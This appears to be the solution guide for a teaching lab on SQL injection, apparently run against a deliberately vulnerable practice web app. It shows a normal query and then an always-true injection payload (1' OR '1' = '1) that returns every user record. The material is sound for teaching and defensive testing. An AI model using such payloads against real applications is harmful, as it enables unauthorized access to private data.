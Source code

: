 ## Solution Guide: Testing SQL Injection on Web Applications
  
This exercise challenged you to input a malicious SQL payload into a field on a web application to cause unintended consequences. You were tasked with taking the SQL queries they built in the previous exercise to design payloads to use against the web application. You entered these payloads into a web application and tested whether it was vulnerable to SQL injection.  

---

1. Test the intended use of the web application. 

    - Enter the payload `1` into the web application. 

    - The results will display the following:

      ```
        ID: 1
        First name: admin
        Surname: admin
      ```

    - This matches the results from Step 1 of the SQL script run on DB Fiddle, except the last_name field, called "surname" on the web application:

        first_name |	last_name
        ------------ | ------------- 
        admin	| admin

2. Use an always true payload to test the unintended use of the web application. 

    - The second query was `select first_name, last_name from users where user_id = '1' OR '1' = '1' `.
        
    - The payload is `1' OR '1' = '1`.
        
    - Entering the payload will return the following:

      ```
        ID: 1' OR '1' = '1
        First name: admin
        Surname: admin

        ID: 1' OR '1' = '1
        First name: Gordon
        Surname: Brown

        ID: 1' OR '1' = '1
        First name: Hack
        Surname: Me

        ID: 1' OR '1' = '1
        First name: Pablo
        Surname: Picasso

        ID: 1' OR '1' = '1
        First name: Bob
        Surname: Smith
      ```
